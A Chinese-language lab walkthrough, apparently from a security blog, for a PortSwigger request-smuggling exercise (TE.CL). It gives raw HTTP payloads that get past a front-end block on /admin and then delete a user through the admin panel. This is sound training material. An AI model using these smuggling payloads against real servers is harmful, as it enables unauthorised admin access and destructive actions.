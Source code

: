 #### TE.CL Bypass

靶场介绍：本实验涉及前端和后端服务器，后端服务器不支持分块编码，在/admin 有一个管理面板，但是前端服务器阻止了对它的访问  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)  
绕过演示：  
首先访问上述靶机，点击"ACCESS THELAB"进入靶场  
[![](assets/1704418275-73e620f2aaed5f73488a6dbd2a8f4f2b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155350-3b7997f2-aa0d-1.png)  
访问/admin 路径时会被直接拦截  
[![](assets/1704418275-450d0ac910b7ed283ec2408b35b7c92b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155408-462df67a-aa0d-1.png)  
随后构造以下请求走私载荷并发送两次请求

```bash
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[![](assets/1704418275-04aafacab83005754bd33803f04d3e01.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155433-54f3054c-aa0d-1.png)  
可以看到和上面的一个靶场一样，都需要本地访问，随后直接增加头部信息即可

```bash
POST / HTTP/1.1
Host: 0aa2009b039439b080a5fd6a00dd00a4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[![](assets/1704418275-b11a339dd661b8cb2ccece5e8963e6a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155500-65794e80-aa0d-1.png)  
从上面可以看到进入到了 admin 的控制面板，随后调用接口执行删除操作

```bash
POST / HTTP/1.1
Host: 0aa2009b039439b080a5fd6a00dd00a4.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```